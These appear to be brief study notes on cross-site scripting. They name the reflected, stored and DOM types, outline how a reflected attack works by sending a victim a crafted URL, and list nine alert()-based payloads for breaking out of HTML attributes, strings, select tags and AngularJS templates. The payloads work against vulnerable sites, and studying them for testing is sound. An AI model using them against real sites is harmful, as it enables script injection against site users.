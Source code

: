 # Type
1. Relfected XSS
2. Store XSS
3. DOM XSS

- Reflected XSS:
    - Tatics: make attacker's JS code run on victims browser
    - Technique: Create payload and combine it to url of vuln website, send that URL to victim
    - Procedures: use burpsuite, inspect tool, ... to test payload, add payload to URL

# Payload

1. `<img src=1 onerror=alert()>`
2. `" onfocus="alert()`
3. `onload="this.src+=<img src=1 onerror=alert()>`
4. Anything put inside href use this payload `javascript:alert()`
5. `'-alert(1)-'`
6. or `'; alert();'`
7. break out an select tag: `</select><img src=1 onerror=alert()>`
8. `{{$on.constructor('alert(1)')()}}` $on is event handler function in AngularJS
9. `\"-alert(1)}//` Look for the script that handle directly the input

